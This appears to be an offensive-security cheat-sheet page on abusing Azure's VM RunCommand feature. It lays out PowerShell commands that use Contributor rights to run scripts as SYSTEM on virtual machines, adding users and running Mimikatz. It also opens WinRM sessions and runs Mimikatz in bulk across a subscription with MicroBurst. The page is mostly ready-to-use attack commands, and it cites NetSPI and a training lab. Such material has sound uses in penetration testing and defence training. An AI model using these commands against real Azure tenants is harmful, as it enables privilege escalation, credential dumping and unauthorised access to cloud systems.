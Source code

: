 # Azure Services - Virtual Machine

## RunCommand

> Allow anyone with "Contributor" rights to run PowerShell scripts on any Azure VM in a subscription as `NT Authority\System`

**Requirements**: `Microsoft.Compute/virtualMachines/runCommand/action`

* List available Virtual Machines

    ```powershell
    PS C:\> Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
    ResourceGroupName    Name       
    -----------------    ----       
    TESTRESOURCES        Remote-Test
    ```

* Get Public IP of VM by querying the network interface

    ```powershell
    PS AzureAD> Get-AzVM -Name <RESOURCE> -ResourceGroupName <RG-NAME> | select -ExpandProperty NetworkProfile
    PS AzureAD> Get-AzNetworkInterface -Name <RESOURCE368>
    PS AzureAD> Get-AzPublicIpAddress -Name <RESOURCEIP>
    ```

* Execute Powershell script on the VM, like `adduser`

    ```ps1
    PS AzureAD> Invoke-AzVMRunCommand -VMName <RESOURCE> -ResourceGroupName <RG-NAME> -CommandId 'RunPowerShellScript' -ScriptPath 'C:\Tools\adduser.ps1' -Verbose
    PS Azure C:\> Invoke-AzureRmVMRunCommand -ResourceGroupName TESTRESOURCES -VMName Remote-Test -CommandId RunPowerShellScript -ScriptPath Mimikatz.ps1
    ```

* Finally you should be able to connect via WinRM

    ```ps1
    $password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
    $creds = New-Object System.Management.Automation.PSCredential('username', $Password)
    $sess = New-PSSession -ComputerName <IP> -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
    Enter-PSSession $sess
    ```

Against the whole subscription using `MicroBurst.ps1`

```powershell
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

## References

* [Running Powershell scripts on Azure VM - Karl Fosaaen - November 6, 2018](https://blog.netspi.com/running-powershell-scripts-on-azure-vms/)
* [Training - Attacking and Defending Azure Lab - Altered Security](https://www.alteredsecurity.com/azureadlab)
